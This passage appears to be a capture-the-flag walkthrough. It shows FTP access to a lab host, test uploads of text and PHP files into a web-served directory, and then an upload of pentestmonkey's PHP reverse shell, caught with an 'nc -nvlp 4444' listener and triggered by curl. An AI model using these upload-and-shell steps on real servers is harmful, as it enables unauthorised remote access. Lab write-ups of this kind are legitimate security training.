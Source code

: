 ```bash
ftp 10.10.162.197
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/187019391-00c50fb6-6a20-446d-87b9-438787b85a62.png)

Listing the files and there I saw that there is a backup directory and which is similar to the files we saw in webserver. 

Maybe we can put files here. So let's try to put a random text file here,

```bash
echo 'Hello Hellfire' > file.txt
ftp 10.10.162.197
put file.txt
```

![image](https://user-images.githubusercontent.com/67465230/187019400-a6522ec7-f828-43a0-899f-d9ced0cfbea8.png)

Now, let's navigate to http://$IP/file.txt and we can see the text file we put before, 

![image](https://user-images.githubusercontent.com/67465230/187019431-c6f421de-eaed-4a29-81a9-8d1e5c5e871b.png)

Let's see if we can upload a php file containing text,

```bash
echo '<?php echo "Hello Hellfire" ?>' > file.php
ftp 10.10.162.197
put file.php
```

![image](https://user-images.githubusercontent.com/67465230/187019536-9d922c1e-e511-47c6-96aa-1fcdb8224b26.png)

Navigating to http://$IP/file.php and we can see the text we wrote on the file,

![image](https://user-images.githubusercontent.com/67465230/187019566-5fcd3d91-91ec-4543-8fdb-723a7853aed8.png)

Wonderful, now let's upload our reverse shell. The reverse shell can be found here, [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)

```bash
ftp 10.10.162.197
put php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/67465230/187019578-1871e67c-4ad1-472e-a739-8680bc9fa318.png)

Let's start the netcat listener using `nc -nvlp 4444` and let's issue the request to the path where we uploaded the shell,

```bash
curl http://10.10.162.197/php-reverse-shell.php
```

After issuing the request, we will immediately get the reverse shell,

![image](https://user-images.githubusercontent.com/67465230/187019587-6fbf222e-0346-4df2-9ba0-c265a8570767.png)
